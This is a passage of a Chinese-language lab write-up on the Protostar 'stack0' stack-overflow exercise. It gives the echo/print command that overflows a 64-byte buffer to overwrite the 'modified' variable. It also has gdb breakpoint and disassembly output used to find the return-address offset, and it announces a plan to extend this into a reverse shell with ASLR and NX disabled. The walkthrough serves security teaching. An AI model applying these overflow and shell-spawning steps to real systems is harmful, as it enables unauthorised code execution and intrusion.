 注意，如果直接在键盘上输入上面这一长串，最后的\x00\x00\x00\x00在内存中并不能被解析成内存中的0000,要使用如下方法:

```
print '1234567898123456789812345678981234567898123456789812345678981234\x00\x00\x00\x00' | ./stack0
#或
echo '1234567898123456789812345678981234567898123456789812345678981234\x00\x00\x00\x00' | ./stack0

```

原题中要求改变modified位，直接输入键盘上的任意大于64位的一串字符即可，因为键盘上的数字0在内存中是0x30,如果将键盘上的0键输入到对应的modified位上，会改变modified

![p3](http://drops.javaweb.org/uploads/images/1d0cfe9a8aca556a6ddefb5f122aa9245204863e.jpg)

该题要求溢出变量modified,也即覆盖栈中的modified所在的内在地址里的值，这里进行扩展，通过栈溢出反弹shell.

该题中ASLR(地址随机化) 和 NX(栈不可执行)已禁用

由上图stack0及分析易知：

1.  栈中如果将一个函数展开，一般从push ebp+mov ebp,esp+sub esp,0x??开始到leave+ret结束,将这些看作是该函数的帧,该函数的上一帧中有调用该函数的汇编语句，该函数的返回地址在栈中的位置为该函数帧的下面一个栈单元内(保存在该函数帧的下面一个栈单元内)
2.  栈中内容由下至上依次为：函数的返回地址、函数的帧(由下至上从函数的上一帧中ebp的值开始)
3.  gets函数通过终端输入超长字符只能覆盖main函数帧的上一帧中调用main函数时main函数的返回地址main_ret，不能覆盖main函数帧中调用gets函数时get函数的返回地址gets_ret

计算需要输入多少字符可以覆盖main_ret:

```
r
Start it from the beginning? (y or n)
y
info b
-------------output:-------------
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x080483fd in main at stack0.c:7
        breakpoint already hit 1 time
2       breakpoint     keep y   0x080483fd in main at stack0.c:8
        breakpoint already hit 1 time
3       breakpoint     keep y   0x08048405 in main at stack0.c:11
4       breakpoint     keep y   0x08048411 in main at stack0.c:13
5       breakpoint     keep y   0x08048427 in main at stack0.c:15
---------------end---------------

disas /m
----------------output:--------------------
Dump of assembler code for function main:
6       {
   0x080483f4 <+0>:     push   ebp
   0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     and    esp,0xfffffff0
   0x080483fa <+6>:     sub    esp,0x60

7         volatile int modified;
8         char buffer[64];
9
10        modified = 0;
=> 0x080483fd <+9>:     mov    DWORD PTR [esp+0x5c],0x0
-----------------end-----------------------

b *0x080483f5
r
Start it from the beginning? (y or n) 
y
-------------------output:-------------------
Starting program: /root/桌面/stack0 

Breakpoint 6, 0x080483f5 in main (argc=1, argv=0xffffd594) at stack0.c:6
6       {
```